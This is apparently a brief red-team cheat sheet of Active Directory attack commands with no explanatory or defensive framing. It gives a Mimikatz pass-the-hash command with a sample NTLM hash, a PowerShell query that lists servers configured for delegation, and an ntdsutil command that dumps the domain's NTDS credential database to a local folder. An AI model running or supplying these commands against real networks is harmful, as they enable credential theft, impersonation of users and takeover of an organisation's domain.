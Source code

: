 # Red Team

## Mimikatz

### Pass the hash
```
sekurlsa::pth /user:pwnd.user /domain:hackersacademy.local /ntlm:fc525c9683e8fe067095ba2ddc971889 /run:powershell.exe
```

## Discover Servers Configured with Delegation
```
Get-AdComputer -Filter {(TrustedForDelegation -eq $True) -AND (PrimaryGroupID -eq 515) } -Properties TrustedForDelegation, TrustedToAuthForDelegation,servicePrincipalName,Description
```

## NTDSUtil
```
ntdsutil "ac i ntds" "ifm" "create full c:\temp" q q
```
